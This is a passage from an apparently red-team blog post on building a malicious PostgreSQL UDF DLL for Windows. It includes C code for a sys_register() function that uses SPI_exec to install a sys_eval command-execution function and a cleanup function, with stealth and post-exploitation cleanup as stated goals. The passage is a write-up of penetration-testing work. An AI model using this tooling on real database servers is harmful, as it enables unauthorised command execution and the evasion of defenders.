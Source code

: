 ```c
		}
	}
	free(verData);
	return;
}
...
```
*Source: [main.c][7]*
### Final cherries
On every pentesting or red teaming engagement we always try to be as stealty as possible, and there was something that was blocking us from achieving this goal. Whenever we loaded the UDF module we needed to restart the PostreSQL service to unload the module from memory and be able to delete the file from disk. Another thing that we where doing a lot and we were tired of doing was registering and unregistering the functions on the PostgreSQL, why don't write a function that register them all? And, as we are lazy, also another function that unregister them all. So we were just two functions away from our desired state of fullfiness.
#### Wake up Poly: sys_register()
Our desire was to execute the minimal amount of lines to get all ready for explotation, we now have two functions, but we could implement a lot more, and it will require us to write new SQL queries to register those functions, so the question that arise was: *"why don't do it programatically?"*, and the quest began. After several google searchs and being about to throw the towel we found the desired feature and correct terms: **SPI** (Server Programming Interface), with it the function [*SPI_connect*][8] and [*SPI_exec*][9], with the help of those functions it was just a matter of getting dynamically the DLL path and formating the correct SQL queries to get everything register with just one powerfull function. ***First cherry on top of our Ice Cream!***
```c
...
/*
UDF that use SPI to register all the UDFs in this DLL. This simplify explotation and post explotation cleanup.
Note: In case one or all functions are already registered it will replace them without throwing an error.
See: sys_cleanup(bool)
*/
PGDLLEXPORT Datum sys_register(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(sys_register);
Datum sys_register(PG_FUNCTION_ARGS) {
	char ModulePath[MAX_PATH] = { 0 };
	int result;
	result = 0;
	char *regcmd = NULL;
	int msize = GetModuleFileNameA(hLibModule, ModulePath, MAX_PATH);

	if (msize == 0) {
		PG_RETURN_INT32(result);
	}

	if (SPI_connect() == SPI_OK_CONNECT) {
		int ret;
		elog(NOTICE, "[sys_register] DLL Path '%s'", ModulePath);
		regcmd = (char *)malloc(1024);

		sprintf(regcmd, "CREATE OR REPLACE FUNCTION sys_cleanup(bool) RETURNS int4 AS '%s','sys_cleanup' LANGUAGE c VOLATILE STRICT COST 1", ModulePath);
		elog(NOTICE, "[sys_register] Command:\n%s", regcmd);
		ret = SPI_exec(regcmd, 0);

		sprintf(regcmd, "CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '%s', 'sys_eval' LANGUAGE c VOLATILE STRICT COST 1", ModulePath);
		elog(NOTICE, "[sys_register] Command:\n%s", regcmd);
		ret = SPI_exec(regcmd, 0);

```

[rop-web]: https://www.rop.la
[rop-twitter]:   https://twitter.com/rop_la
[rop-github]:   https://github.com/rop-la/
[rop-youtube]: https://www.youtube.com/channel/UCg01TfhxLro71ppULtIBAjw